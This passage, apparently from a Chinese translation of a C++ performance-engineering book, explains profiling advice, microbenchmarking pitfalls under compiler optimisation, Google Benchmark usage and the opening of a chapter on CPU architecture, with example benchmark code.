这里，我们可以看到时间似乎花在排序代码和主程序本身上。然而，检查带注释的汇编码可以看到，由`compare()`函数源码生成的代码，仍占了大多数的执行时间:

\
图 2.21

不幸的是，没有简单的方法可以撤消优化对性能数据文件的影响。分析内联、代码重新排序和其他转换的性能，将会转化为一种随实践而发展的技能。现在，给出一些对分析的建议。

**2.4.6分析建议**

人们可能很容易认为，分析是满足所有性能测试需求的最终解决方案:在分析器下运行整个程序，收集所有数据，并对代码中发生的一切进行分析。不幸的是，这种方法很少奏效。有时，工具的限制会成为障碍。通常，处理大量信息的复杂性太大了。那么，应该如何有效地进行分析呢？

建议是首先收集高级信息，然后进行细化。解析大型模块之间执行时间的数据，可能是一个很好的起点。另一方面，如果这些模块用于基准测试，并且有计时器对所有主要执行步骤进行记录，那么就可以收到到这些信息了。若没有这样的工具，初始的数据文件为这些步骤提供了很好的建议，所以可以现在考虑添加基准测试的工具，以便下次使用，没人会认为一次性就能解决所有的问题吧？

有了基准测试结果和数据的概要，可能会遇到以下几个情况。这个数据文件会指向一些简单的结果，比如：一个花99%时间做列表的函数。当第一次编写代码时，没有人期望数组的长度超过10个元素，所以只持续了一段时间，然后所有人都忘记了这段代码，直到它出现在数据文件上。

更有可能的是，数据概要文件将引导找到一些大型函数或模块。必须迭代、创建专注于程序有趣部分的测试，并更详细地分析更小的代码部分。一些基准测试数据也有助于解释数据文件：虽然数据文件会说明在给定函数或循环中花费了多少时间，但它不会计算循环迭代或跟踪if-else。大多数分析器都能计数函数调用，所以一个好的模块化代码比一个庞大的代码堆更容易分析。

如果需要收集和细化数据文件，数据会将分析者的注意力集中到代码性能的关键部分。这也是可能会陷入错误的地方：当专注于过慢的代码时，可能会直接优化它，而不考虑其他的情况，例如：数据文件显示某个特定循环在内存分配上花费的时间最多。当决定需要更高效的内存分配时，请考虑是否需要在循环的每个迭代中分配和回收内存。使慢代码变快的最好方法通常是减少调用频率。这可能需要一个不同的算法，或者一个更有效的实现。

通常情况下必须进行计算，这是代码中性能至关重要的部分，加快程序速度的唯一方法是使代码更快。所以必须尝试不同的方法来进行优化，看看哪种方法最有效。可以直接在程序中实现，但这通常是一种浪费时间的方法，会显著降低工作效率。理想情况下，可以快速试验针对特定问题的解决方案，从而提出不同实现或不同算法。这里，可以利用第三种方法来收集性能数据，即微基准测试。

###  2.5.微基准测试 {#微基准测试 .unnumbered}

上一节的末尾，我们找出了程序在什么地方花费了大部分的执行时间。在使用"明显的"和"简单的"优化后，出现了事与愿违的情况，程序运行的更变慢了。现在很清楚，我们必须更详细地研究性能的关键函数。

整个程序都在执行这段代码，并且有方法来测试性能。至少在解决确定的性能问题之前是这样，现在我们依旧对程序的其余部分不再感兴趣。

使用大型程序来优化几行代码有以下两个缺点:

尽管这几行代码是性能关键的部分，但这并不意味着程序的其余部分完全不需要时间(我们的示例中，确实需要。但是请记住，这个示例表示正在处理的整个大型程序)。可能要等上几个小时，程序才能到达有趣的地方，要么是因为整个任务都那么长，要么是因为性能关键函数只在特定条件下调用，比如：源于网络的特定请求。

此外，处理大型程序需要更多的时间：编译和链接时间更长。实际工作可能与其他开发者所做的代码有交互，甚至编辑也需要更长时间，所以其他代码会令人分心。因此，我们只对函数的基线感兴趣，所以希望能够调用这个函数，并进行测试。这就是**微基准测试**做的事情。

**2.5.1微基准测试的基础概念**

简言之，微基准测试只是实现刚才描述目标的一种方式：运行一小块代码，并测试其性能。我们的例子中，其只是一个函数，但也可能是一个更杂的代码段。重要的是，这段代码可以在正确的初始条件下调用：对于函数，这些只是参数，但对于更大的代码段，可能需要创建更复杂的内部状态。

我们的例子中，确切地知道需要用什么参数来调用字符串比较函数------我们构造了参数。需要做的第二件事是测试执行时间，我们已经了解了用于此目的的计时器。考虑到这一点，我们可以编写一个非常简单的基准测试，调用字符串比较函数的几个变量，并报告结果:

``` {style="styleCXX"}
bool compare1(const char* s1, const char* s2) {
	int i1 = 0, i2 = 0;
	char c1, c2;
	while (1) {
		c1 = s1[i1]; c2 = s2[i2];
		if (c1 != c2) return c1 > c2;
		++i1; ++i2;
	}
}
bool compare2(const char* s1, const char* s2) {
	unsigned int i1 = 0, i2 = 0;
	char c1, c2;
	while (1) {
		c1 = s1[i1]; c2 = s2[i2];
		if (c1 != c2) return c1 > c2;
		++i1; ++i2;
	}
}
int main() {
	constexpr unsigned int N = 1 << 20;
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	system_clock::time_point t0 = system_clock::now();
	compare1(s.get(), s.get() + N);
	system_clock::time_point t1 = system_clock::now();
	compare2(s.get(), s.get() + N);
	system_clock::time_point t2 = system_clock::now();
	cout << duration_cast<microseconds>(t1 - t0).count() <<
	  "us " << duration_cast<microseconds>(t2 - t1).count() <<
	  "us" << endl;
}
```

这个程序中，只测试两个比较函数，都没有循环结束条件，一个用`int`型索引，另一个用`unsigned int`型索引。另外，我们不会在后面的代码中重复`#include`和`using`。输入数据是一个长字符串，从头到尾填充了相同的字符，所以子字符串的比较将一直进行到字符串的末尾。当然，可以根据需要的任何数据进行基准测试，我们先从最简单的情况开始。

这个程序看起来是我们需要的事情:

\
图 2.22

不管怎样，都是0耗时。到底是哪里出错了呢？也许，单个函数调用的执行时间太快而无法测试？这是一个不错的想法，我们可以很容易地解决这个问题:如果一个调用的时间太短，只需要多调用几次:

``` {style="styleCXX"}
int main() {
	constexpr unsigned int N = 1 << 20;
	constexpr int NI = 1 << 11;
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	system_clock::time_point t0 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		compare1(s.get(), s.get() + N);
	}
	system_clock::time_point t1 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		compare2(s.get(), s.get() + N);
	}
	system_clock::time_point t2 = system_clock::now();
	cout << duration_cast<microseconds>(t1 - t0).count() <<
	  "us " << duration_cast<microseconds>(t2 - t1).count() <<
	  "us" << endl;
}
```

可以增加迭代次数`NI`直到得到结果，对吧？不可能那么快的：

\
图 2.23

确实太快了，但为什么呢？让我们在调试器中逐步检查这个程序，看看它实际上做了什么:

\
图 2.24

我们在`main`函数中设置了断点，所以程序一启动就会暂停，然后一行一行地执行程序......不过，这并不是我们写的所有的代码行!剩下的代码在哪里？我们可以猜测这是编译器的原因，但是为什么呢？我们需要了解更多关于编译器优化的知识。

**2.5.2微基准测试和编译器优化**

要理解神秘的缺失代码，我们必须看下这里做了什么。其创建一些字符串，调用比较函数，然后......没有了？！没有别的事情发生。除了在调试器中观察代码外，如何通过运行这个程序来知道代码是否执行了呢？没有其他办法了。早在我们之前，编译器得出了同样的结论。因为编译器已经对其进行了优化，所以开发者无法区分执行和不执行代码的区别。但是，开发者可以分辨出的是，什么都不做比做某事花费的时间要少得多。这里，可以从C++标准中得到一个非常重要的概念，它对理解编译器优化至关重要------可观察行为。

标准表示，编译器可以对程序进行更改，只要这些更改不会改变可观察对象的行为即可。标准对于什么构成了可观察行为也非常具体:

1.  对易变(volatile)对象的访问(读和写)需要严格按照发生它们的表达式的语义进行。特别是，对于同一线程上其他易变对象的访问，编译器不能重排。

2.  程序终止时，写入文件的数据与写入程序执行时的数据一样。

3.  发送到交互设备的提示文本，将在程序等待输入之前显示出来。简单地说，输入和输出操作不能省略或重排。

上述规则有几个例外，但没有一个适用于我们的程序。编译器必须遵循假设规则，经过优化的程序应该与所写代码的可观察行为完全一样，并一行一行地执行。请注意，因为调试器下运行程序并不构成可观察行为，所以调试器中会有代码缺失。它的执行时间很长，不执行看起来也无所谓，所以编译器为了优化程序，就略过了执行。

在新的理解下，让我们再来看看基准代码。字符串比较的结果不会影响可观察行为，因此整个计算可以由编译器自行决定。我们的观察也找到了解决这个问题的方法，必须确保计算的结果影响可观察行为。一种方法是利用volatile语义:

\
**05_compare_timer.C**

``` {style="styleCXX"}
int main() {
	constexpr unsigned int N = 1 << 20;
	constexpr int NI = 1 << 11;
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	volatile bool sink;
	system_clock::time_point t0 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		sink = compare1(s.get(), s.get() + N);
	}
	system_clock::time_point t1 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		sink = compare2(s.get(), s.get() + N);
	}
	system_clock::time_point t2 = system_clock::now();
	cout << duration_cast<microseconds>(t1 - t0).count() <<
	  "us " << duration_cast<microseconds>(t2 - t1).count() <<
	  "us" << endl;
}
```

对比较函数的每次调用的结果都需要写入volatile变量中，并且根据标准，这些值必须正确，且以正确的顺序写入。编译器现在别无选择，只能调用比较函数并获得结果。只要结果本身不变，计算这些结果的方法仍然可以优化。这正是我们想要的，希望编译器为比较函数生成最好的代码，最好是在实际程序中生成的代码，但不想让它完全放弃这些功能。运行这个基准测试表明我们终于实现了目标，代码肯定会运行:

\
图 2.25

第一个值是`compare1()`函数的运行时，该函数使用`int`型索引，确实比`unsigned int`版本略快一些(暂时不要太相信这些结果)。

将我们的计算与某些可观察行为绑定在一起的第二个选择是，将结果打印出来，这可能会有点棘手。考虑一下简单的修改:

``` {style="styleCXX"}
int main() {
	constexpr unsigned int N = 1 << 20;
	constexpr int NI = 1 << 11;
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	bool sink;
	system_clock::time_point t0 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		sink = compare1(s.get(), s.get() + N);
	}
	system_clock::time_point t1 = system_clock::now();
	for (int i = 0; i < NI; ++i) {
		sink = compare2(s.get(), s.get() + N);
	}
	system_clock::time_point t2 = system_clock::now();
	cout << duration_cast<microseconds>(t1 - t0).count() <<
	  "us " << duration_cast<microseconds>(t2 - t1).count() <<
	  "us" << sink << endl;
}
```

注意，变量`sink`不再是volatile类型。相反，我们输出了最终值。不过，这并不像想象的那样有效:

\
图 2.26

函数`compare2()`的执行时间与以前大致相同，但`compare1()`快太多了。目前为止，我们已经足够了解这种虚假的"改进"。编译器发现第二个调用覆盖了第一个调用的结果，因此不会影响可观察行为。

这就带来了一个有趣的问题：为什么编译器没有发现循环的第二次迭代与第一次的结果相同，并优化了第一次以外的所有对比较函数的调用，对于每个函数都会这样么？如果优化器足够高级，那么它可以做到，然后我们需要做更多的工作来绕过它。通常，将函数编译为单独的编译单元就可以防止此类优化，尽管有些编译器能够进行整个程序的优化，所以在运行微基准测试时，可能要关闭这些特性。

注意，两个基准测试运行产生了一些不同的值，甚至对于没有优化的函数的执行时间也是如此。如果再次运行这个程序，可能会得到另一个值，也在相同的范围内，但略有不同。这还不够，我们需要的不仅仅是大概的数字。我们可以多次运行基准测试，计算需要重复多少次，并计算平均时间，但无需手工操作。不必编写代码来完成此任务，因为这样的代码已经有了，并且可以作为微基准测试工具使用。我们现在就来学习一种这样的工具。

**2.5.3谷歌基准测试工具**

编写一个微型基准测试需要大量的样板代码，主要用于测试时间和结果累加。此外，该代码对测试的准确性至关重要。现在，有几个高质量的微基准库可用。本书中，我们使用谷歌基准库，下载和安装该库的说明可以在**相关准备**部分找到。本节中，我们将描述如何使用库，并解释结果。

使用谷歌基准库，我们必须编写一个小程序来准备输入，并执行我们想要基准测试的代码。这是一个基本的谷歌基准程序，用于测试字符串比较函数的性能:

\
**10_compare_mbm.C**

``` {style="styleCXX"}
#include "benchmark/benchmark.h"
using std::unique_ptr;
bool compare_int(const char* s1, const char* s2) {
	char c1, c2;
	for (int i1 = 0, i2 = 0; ; ++i1, ++i2) {
		c1 = s1[i1]; c2 = s2[i2];
		if (c1 != c2) return c1 > c2;
	}
}
void BM_loop_int(benchmark::State& state) {
	const unsigned int N = state.range(0);
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	const char* s1 = s.get(), *s2 = s1 + N;
	for (auto _ : state) {
		benchmark::DoNotOptimize(compare_int(s1, s2));
	}
	state.SetItemsProcessed(N*state.iterations());
}
BENCHMARK(BM_loop_int)->Arg(1<<20);
BENCHMARK_MAIN();
```

每个谷歌基准测试程序都必须包括库的头文件`benchmark/benchmark.h`，还要包括编译我们想要测量的代码所需的其他头文件(它们在前面的代码清单中)。程序本身由许多基准测试"固件"组成，每一个都是一个具有特定签名的函数，接受一个引用参数`benchmark::State`，无返回值。该参数是谷歌基准库提供的一个对象，可以让外部开发者与基准库进行对接。

对于每个代码片段，需要一个固件，比如：想要进行基准测试的函数。在每个基准测试固件中，要做的第一件事是设置需要用作要运行的代码输入的数据。通常，需要重新创建这个代码的初始状态，以表示在实际程序中的状态。我们的例子中，输入是字符串，所以需要分配和初始化字符串。可以将字符串的大小硬编码到基准测试中，但也有一种方法可以将参数传递到基准测试固件中。固件使用参数字符串长度，作为`state.range(0)`的值。当然，也可以传递其他类型的参数，详细信息请参考谷歌基准库的文档。

基准测试上，整个设置是随意的，因为不用测试准备数据所需的时间。测试执行时间的代码在基准测试循环的主体中，`for (auto _: state)``…`。较老的例子中，可以发现这个循环会写成`while (state.KeepRunning())``…`，可以做着同样的事情，但效率略低。基准库来测试每次迭代所花费的时间，并决定要进行多少次迭代来累积足够的数据，以减少在测试一小段代码的运行时间时不可避免的随机噪声(只测试基准循环中代码的运行时间)。

当测试足够精确(或达到一定的时间限制)时，循环退出。对于循环，通常需要一些代码来清理前面初始化的数据。我们的例子中，这个清理由`std::unique_ptr`对象的析构函数进行。还可以调用`State`对象来输出基准测试报告的结果，基准库总是报告运行循环的一次迭代所花费的平均时间，但有时用其他方式表示程序的速度会更方便。字符串比较，一个选项是报告代码每秒处理的字符数，可以通过调用`state`来实现。`SetItemsProcessed()`包含整个运行期间处理的字符数，每次迭代`N`个字符(若想要同时计算两个子字符串，则为`2*N`；项目可以计算已定义为处理单元的内容)。

不会因为定义了一个基准固件而发生任何事情，我们需要将它注册到库中。这里使用`BENCHMARK`宏完成，宏的参数是函数名。这个名字没有什么特别，它可以是任何C++标识符；我们以`BM_`开头，只是遵循本书的命名惯例。`BENCHMARK`宏也是指定要传递给基准测试固件参数的地方，参数和其他基准的选项使用重载的箭头操作符传递:

``` {style="styleCXX"}
BENCHMARK(BM_loop_int)->Arg(1<<20);
```

这行代码用参数`1<<20`注册了基准固件`BM_loop_int`，这个参数可以通过调用`state.range(0)`在固件中检索。本书中，我们将看到更多不同参数的例子，可以在库文档中找到更多这样的例子。

前面的代码清单中没有`main()`。不过，有另一个宏`BENCHMARK_MAIN()`，这里`main()`不由我们来写，而是由谷歌基准库提供，它负责设置基准测试环境、注册基准并执行基准。

回到我们的测量，并更仔细地观察代码:

``` {style="styleCXX"}
for (auto _ : state) {
	benchmark::DoNotOptimize(compare_int(s1, s2));
}
```

`benchmark::DoNotOptimize(…)`包装器的作用类似于之前使用的volatile型`sink`：可以确保编译器不会优化掉对`compare_int()`的调用。注意，它实际上并没有关闭任何优化，括号内的代码会进行优化，这是我们想要的。它确实是告诉编译器表达式的结果，在我们的例子中，比较函数的返回值应该认为是"使用"，不能简单地丢弃。

现在，我们已经准备好编译，并运行第一个微基准测试了:

\
图 2.27

编译时必须列出到谷歌基准的头文件和库路径，而谷歌基准库libbenchmark.a还依赖其他几个库。调用时，基准测试程序就会打印一些关于正在运行的系统的信息，然后执行每个已注册的固件及其参数。每个基准固件会有一行输出和一组参数，报告包括基准循环体的一次执行的平均实时时间和平均CPU时间、执行循环的次数，以及其他添加到报告中的统计信息(我们的例子中，是通过比较每秒处理的字符数，超过2G字符/秒)。每次运行这些数据会有变化吗？如果使用正确的命令行参数启用统计信息收集，那么基准库可以计算出这些数据，然后就可以进行比较了。

重复基准测试10次并报告结果，可以这样:

\
图 2.28

看来测量结果相当准确，标准差很小。我们可以比较函数的不同实现，并找出哪个是最快的。在这之前，得说个秘密。

**2.5.4微基准测试不说实话**

做了多次微基准测试后，会很快会发现这么说的原因。首先，结果是有意义的，因为做了很好的优化，一切看起来都很好。然后做一些小的改变，就会得到非常不同的结果。回去再进行检查，现在测试给出了不同的数字。最后，会得到两个几乎相同的测试，但结果完全相反的结果，这会摧毁使用者对微观基准的信任，而我唯一能做的就是摧毁它，但要以一种可控的方式，这样我们还能从废墟中抢捞出一些有用的东西。

微基准测试和其他性能指标的基本问题是，它们很大程度上依赖于上下文。随着阅读本书后续的部分，将了解现代计算机的性能行为是复杂的。结果不仅取决于代码正在做什么，还取决于系统其余部分在做什么，取决于它之前在做什么，以及在代码到达兴趣点之前执行的路径。这些东西在微观基准测试中，都不会进行复刻。

相反，基准有自己的上下文。基准测试库的作者并不是没有意识到这个问题，他们尽可能地去解决这个问题。谷歌基准库在每个测试上都进行了长期测试：最初的几个迭代可能具有与运行的其余部分非常不同的性能特征，因此库会忽略最初的测量值，直到结果"稳定下来"。但这也定义了一个特定的上下文，可能与实际的程序不同。实际的程序中，对函数的每次调用只重复一次(另一方面，有时会在整个程序运行过程中多次使用相同的参数调用同一个函数，所以这可能会有不同的上下文)。

运行基准测试之前，无法在每个细节上忠实地再现大型程序的真实环境，但是有些细节很重要。上下文差异的最大来源是编译器，或是编译器对实际程序和微基准的优化。我们知道编译器试图指出，微基准测试上运行非常慢的方法，没有做任何有用的事情(或至少没有可观察的)，然后会用更快的方法来替换它。之前使用的*DoNotOptimize*包装器解决了一些由编译器优化引起的问题。

编译器仍有可能发现对函数的每次调用都返回相同的结果。此外，由于函数定义与调用在同一个文件中，编译器可以内联整个函数，并使用收集到的信息来优化函数。通常情况下，当从另一个编译单元调用函数时，这种优化不可用。

为了在微基准测试中更准确地还原真实情况，可以将比较函数移动到它自己的文件中，并编译它。我们有一个文件(编译单元)，只有基准测试固件:

\
**11_compare_mbm.C**

``` {style="styleCXX"}
#include "benchmark/benchmark.h"
extern bool compare_int(const char* s1, const char* s2);
extern bool compare_uint(const char* s1, const char* s2);
extern bool compare_uint_l(const char* s1, const char* s2,
unsigned int l);
void BM_loop_int(benchmark::State& state) {
	const unsigned int N = state.range(0);
	unique_ptr<char[]> s(new char[2*N]);
	::memset(s.get(), 'a', 2*N*sizeof(char));
	s[2*N-1] = 0;
	const char* s1 = s.get(), *s2 = s1 + N;
	for (auto _ : state) {
		benchmark::DoNotOptimize(compare_int(s1, s2));
	}
	state.SetItemsProcessed(N*state.iterations());
}
void BM_loop_uint(benchmark::State& state) {
	… compare_uint(s1, s2) …
}
void BM_loop_uint_l(benchmark::State& state) {
	… compare_uint_l(s1, s2, 2*N) …
}
BENCHMARK(BM_loop_int)->Arg(1<<20);
BENCHMARK(BM_loop_uint)->Arg(1<<20);
BENCHMARK(BM_loop_uint_l)->Arg(1<<20);
```

可以单独编译文件，并将它们链接在一起(必须关闭所有的程序优化)。现在，我们有了一个合理的预期，因为无法计算出基准测试中使用的参数，编译器不会生成子字符串比较的简化版本。通过这个简单的措施，结果就与我们在分析整个项目时所观察到的情况更加一致:

\
图 2.29

代码的初始版本使用了`unsigned int`索引作为循环中的边界条件(最后一行)，只要边界条件检查有不必要的检查就会导致性能下降(中间一行)。最后，将索引更改为`signed int`就可以恢复丢失的性能，甚至可以提高性能(第一行)。

单独编译代码段通常足以避免不必要的优化。通常，会发现编译器会根据同一文件中的其他内容对特定的代码块进行优化。这可能只是编译器中的Bug，但也可能是一些启发式的结果，根据编译器编写者的经验，这通常是正确的。观察到结果取决于一些没有执行的代码，因为是编译，这只是可能的原因。解决方案会使用实际程序中的编译单元，调用需要进行基准测试的函数就可以了。当然，必须满足编译和链接依赖项，因此这里还需要编写模块化代码，并最小化依赖项。

其他上下文是计算机本身的状态。如果整个程序耗尽了内存，并在交换中循环，那么小内存的基准测试将不能代表真正的问题;另一方面，现在的问题不在"慢"代码中，问题是在其他方面消耗了太多的内存。这种上下文依赖还有更微妙的版本，并且可能会影响基准测试。这种情况是，结果取决于执行测试的顺序(微基准测试中，则为`BENCHMARK`宏的顺序)。重新排序测试或只运行测试的子集可能会得到不同的结果，它们之间存在某种依赖关系。可以是代码依赖项，通常与某些全局数据结构中的数据积累一样简单，这可能是对硬件状态的依赖。这些情况很难理解，在本书的后面，将了解一些导致这种依赖的原因。

最后，有一个上下文依赖的主要来源掌握在测试者手中(这未必容易避免，但至少是可以避免的)，它依赖于程序的状态。我们需要处理这种依赖，要对输入进行基准测试。有时，输入是已知的或可以重构的。通常，性能问题只会发生在特定类型的输入上，我们不知道它们有什么特别之处，直到分析了在这些特定输入情况下的代码性能(这正是我们用微基准测试所要做的事情)。这种情况下，通常最容易从实际程序的运行中获取输入，并将它们存储在文件中，使用它们重新创建测试代码的状态。这个输入可以是简单的数据集合，也可以是复杂的事件序列，这些事件序列需要记录并"回放"到事件处理程序中，以重现相应的行为。

我们需要重构的状态越复杂，在微基准测试中再现真实程序的性能行为就越困难。这个问题有点类似于编写单元测试，若程序不能以更简单的状态分解成更小的单元，那么编写单元测试也要困难得多。这里，我们看到了设计良好的软件系统的优点，具有良好单元测试覆盖率的代码库通常更容易进行微基准测试。

正如在本节开始时所警告的那样，它的目的是在一定程度上是要恢复对微基准测试的信心。微基准测试是一个有用的工具，但它们也会把你引入歧途，有时甚至会走得很远。现在，请理解其中的原因，并更好地准备从结果中获取有用的信息，而不是完全放弃微基准测试。

我们在本章中介绍的工具没有一个能解决所有问题，它们不是万金油。而我们可以通过使用这些工具，以各种方式收集信息来达到最佳的效果，因此它们之间是相辅相成的。

###  2.6.总结 {#总结-1 .unnumbered}

这一章中，已经了解了整本书中最重要的概念，若不参照具体的衡量标准，谈论甚至思考性能都是没有意义的。剩下的大部分是动手环节，我们介绍了几种测量性能的方法。从整个程序开始，然后深入到每一行代码。

一个大型的高性能项目中，可以看到本章所学到的每一种工具和方法会多次使用。粗略测量------对整个程序或大部分程序进行基准测试和分析------指向需要进一步研究的代码区域。随后会进行更多轮的基准测试或收集更详细的数据。最终，确定需要优化的代码，然后问题就变成了，如何才能更快地完成这项工作？此时，可以使用微型基准测试或小型基准测试来测试优化代码。甚至可能会发现，您对这段代码的理解并不如自己所想的那么透彻，并且需要对其性能进行更详细的分析。同时，不要忘记可以对微基准测试结果进行分析!

最终，将得到性能关键代码的新版本，在小型基准测试中看起来是没问题的。但是，不要做任何假设！现在必须通过测试整个程序的性能，来确定所做的优化或增强是否有效。有时，这些测量将确认您对问题的理解，并验证解决方案。有时，会发现问题并不像想象的那样。优化本身虽然有益，但并没有对整个程序产生预期的效果(甚至会使事情变得更糟)。当有了一个新的数据点，可以比较新旧解决方案的数据，并在比较二者差异中寻找答案。

高性能程序的开发和优化从来不是线性的、循序渐进的过程。相反，它有许多迭代，从高级概述到低级数据分析，然后重复。这个过程中，直觉起着作用，只要确保测试和确认期望相符即可。因为涉及到性能时，没有什么是真正的显而易见。

下一章，将看到我们之前遇到的问题的解决方案，删除不必要的代码使程序变慢。为了做到这一点，我们必须了解如何有效地使用CPU以获得最大的性能，下一章将专门来讨论这个问题。

###  2.7.练习题 {#练习题-1 .unnumbered}

1.  为什么需要性能测试？

2.  为什么需要不同的方法来衡量性能？

3.  手动基准测试的优点和局限性是什么？

4.  如何使用分析的方式来测试性能？

5.  小型基准测试(包括微基准测试)的用途是什么？

##  第3章CPU架构、资源和性能 {#第3章cpu架构资源和性能 .unnumbered}

这一章，开始探索计算硬件。我们想知道最优地使用方式，并从中获得最佳的性能。首先要了解的硬件组件是CPU，即中央处理器。CPU完成了所有的计算，如果不高效地使用它，就没有什么能拯救缓慢、性能低的程序了。本章将专门了解CPU资源和能力，最佳的使用方法，常见的CPU资源没有得到最佳利用的原因，以及如何解决这些问题。

本章将讨论以下内容:

-   现代CPU的架构

-   使用CPU的内部并发获得最佳性能

-   CPU流水线和投机执行

-   分支优化和无分支计算

-   如何评估程序是否高效地使用CPU资源

###  3.1.相关准备 {#相关准备-1 .unnumbered}

需要提前准备C++编译器和微基准测试工具，比如：在前一章中使用的谷歌基准测试库(<https://github.com/google/benchmark>)。我们也将使用**LLVM机器代码分析器(LLVMMCA)**：<https://llvm.org/docs/CommandGuide/llvm-mca.html>。如果想使用MCA，那么需要基于llvm的编译器，比如Clang。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter03>

###  3.2.从CPU性能开始 {#从cpu性能开始 .unnumbered}

前面的章节中已经注意到，高效的程序需要充分利用可用的硬件资源，而不是把它们浪费在不必要的任务上。但也不能这样简单地描述高性能程序，因为只能根据特定目标定义性能的优劣。本书中，特别在本章，主要关注计算性能或吞吐量。用现有的硬件资源可以以多快的速度解决问题？这种类型的性能与效率密切相关。若程序执行的每次计算都使我们更接近结果，那么将更快地得到结果。

这就引出了下一个问题:一秒钟可以完成多少计算？当然，答案取决于硬件，以及程序使用硬件的效率。程序需要多个硬件组件:处理器和内存，也需要为分布式、云存储和其他I/O通道提供的网络连接，和为操作大量外部数据(可能是其他硬件)提供的网络连接，这取决于程序如何进行工作。一切都从处理器开始说起，所以先来探索高性能编程。本章中，我们将程序限制在一个线程上，并发执行将在后面的章节中进行介绍。

从这个角度来看，本章的内容为，如何在单个线程中充分利用CPU资源。要理解这一点，首先要了解CPU有哪些资源。当然，不同的处理器和不同的处理器模型将有不同的硬件功能，而本书的目标有两个:首先，对这个主题有一个大致的了解；其次，使用必要的工具，获得更详细和具体信息。不过，现代CPU很复杂，可用的计算资源只能进行总结概述。为了说明这一点，看一下英特尔CPU的模具示例:

\
图3.1 - Pentium CPU的模具图像，带有功能区标记(来源:Intel)

图像顶部是主要功能区域。如果是第一次看到这样的图片，最令人吃惊的细节可能是执行单元，也就是做加法、乘法和我们认为是CPU主要功能的部分，实际上甚至不占用四分之一的硅面。剩下的是其他的东西，其目的基本上是使加法和乘法能够有效地工作。并且，处理器有许多具有不同功能的组件。这些组件有一些是独立工作的，开发者无需做什么就可以使用它们。有些需要精心安排机器码，这主要由编译器完成。但是，超过一半的硅面用于组件，这些组件不仅仅是进行优化，还为了获得处理器的最大性能。开发者需要了解它们是如何工作的，它们可以做什么和不可以做什么，以及什么会影响它们的操作效率(积极和消极)。如果需要真正出色的性能，即使使用那些运行良好的部分，也可以从这些组件中受益。

有很多关于处理器架构的书，包括设计师用来提高性能的所使用的硬件技术。这些书可以作为知识的来源，但本书不会再成为这样的书。这里，我们将着重于探索发挥硬件性能的实际方法，我们先从CPU开始。

###  3.3.微基准测试性能 {#微基准测试性能 .unnumbered}

上一节的结果可能会有些沮丧。处理器非常复杂，需要处理很多问题才能以最高效率运行。这里，我们从简单的开始，看看处理器基本操作的速度。为此，我们将使用谷歌基准测试工具。下面是两个数组简单相加的基准测试:

\
**01_superscalar.C**

``` {style="styleCXX"}
#include "benchmark/benchmark.h"
void BM_add(benchmark::State& state) {
	srand(1);
	const unsigned int N = state.range(0);
	std::vector<unsigned long> v1(N), v2(N);
	for (size_t i = 0; i < N; ++i) {
		v1[i] = rand();
		v2[i] = rand();
	}
	unsigned long* p1 = v1.data();
	unsigned long* p2 = v2.data();
	for (auto _ : state) {
		unsigned long a1 = 0;
		for (size_t i = 0; i < N; ++i) {
			a1 += p1[i] + p2[i];
		}
		benchmark::DoNotOptimize(a1);
		benchmark::ClobberMemory();
	}
	state.SetItemsProcessed(N*state.iterations());
}
BENCHMARK(BM_add)->Arg(1<<22);
BENCHMARK_MAIN();
```

第一个例子，展示了基准的所有细节，包括输入的生成。大多数操作的速度并不依赖于操作数的值，这里使用随机输入，这样在处理对输入敏感的操作时就不用担心了。虽然将值存储在数组中，但我们不想测试数组索引的速度:编译器肯定会优化表达式`v1[i]`，以生成与`p1[i]`完全相同的代码，但为什么要冒这个险呢？将尽可能多的不重要的细节排除在外，直到剩下最基本的问题。内存中有两个数组，我们想对数组的每个元素进行一些计算。

另一方面，必须考虑不需要的编译器优化的可能。编译器可能会发现整个程序只是一个非常长，且什么都不做的过程(至少就C++标准而言是这样的)，并通过优化掉大块的代码，给出一个更快的方法来做同样的事情。编译器的方向是不要优化掉计算的结果，并假定内存的状态可以在基准迭代之间进行修改，这也会阻止此类优化。另外，将变量`a1`声明为`volatile`肯定会阻止大多数不应该的优化。反过来，它也会阻止编译器优化循环，这不是我们想要的结果。我们想看到CPU如何高效地处理两个数组，也就是如何生成最高效的代码。我们只是不想让编译器发现基准循环的第一次迭代与第二次迭代完全相同。

微基准测试的一个不寻常的应用。有一小段代码，我们想知道它有多快，以及如何使它更快。我们使用微基准来了解处理器的性能，通过对代码进行裁剪，带给一些启发。

编译基准测试时，应该打开优化选项。运行基准测试将产生如下的结果(当然确切的数字取决于CPU):

\
图 3.2

目前，我们还不能从这个实验中得出什么结论(除了现代CPU速度的确快)。CPU可以在不到1纳秒的时间内将两个数字相加。如果对此感到好奇，可以探索一下其他运算:减法和乘法所花费的时间与加法相同，而整数除法则相当缓慢(比加法慢三到四倍)。

为了分析代码的性能，必须按照处理器的方式来进行。两个输入数组存储在内存中，但是加法或乘法操作是在存储在寄存器中的值之间执行的(对于某些操作，可能是在寄存器和内存位置之间)。这就是处理器如何一步步地对循环进行迭代。迭代开始时，索引变量`i`在一个CPU寄存器中，对应的两个数组元素`v1[i]`和`v2[i]`在内存中:

{width="60%"}\
图 3.3

做计算之前，必须将输入移到寄存器中。必须为每个输入分配一个寄存器，并为结果分配一个寄存器。在给定的循环迭代中，第一个指令会把一个输入加载到寄存器中:

{width="70%"}\
图3.4 - 第i次迭代：第一个指令后的处理器状态

read(或load)指令使用内存中包含索引`i`和数组`v1`位置的寄存器来访问值`v1[i]`，并将其复制到寄存器中。下一条指令以相同的方式来加载第二个输入:

{width="70%"}\
图3.5 - 第i次迭代：第2条指令后的处理器状态

现在可以进行加法或乘法运算了:

{width="70%"}\
